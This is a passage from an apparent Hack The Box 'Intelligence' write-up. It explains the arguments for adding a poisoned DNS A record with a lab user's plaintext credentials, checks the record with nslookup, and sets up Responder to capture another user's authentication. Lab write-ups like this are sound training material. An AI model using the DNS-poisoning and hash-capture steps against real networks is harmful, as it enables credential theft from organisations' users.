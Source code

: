 - `-u intelligence\\Tiffany.Molina` - The user to authenticate as;
- `-p NewIntelligenceCorpUser9876` - The user’s password;
- `--action add` - Adding a new record;
- `--record web-Strong` - The domain to add;
- `--data 10.10.16.29` - The data to add, in this case, the IP to resolve web-Strong to;
- `--type A` - The type of record to add.

Lets check if my system means Attacker machine is a part of that DNS record or not through `nslookup` tool →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Intelligence]
└─$ nslookup
> server intelligence.htb
Default server: intelligence.htb
Address: 10.10.10.248#53
> web-Strong
Server:		intelligence.htb
Address:	10.10.10.248#53

** server can't find web-Strong: SERVFAIL
```
{: .nolineno}

So It seams we are on the right track so according to `downdetector.ps1` script lets capture some data send to Ted Graves user with responder →

![Untitled](Intelligence%205c9413713b15427eaed2a111cea99e6f/Untitled%204.png)
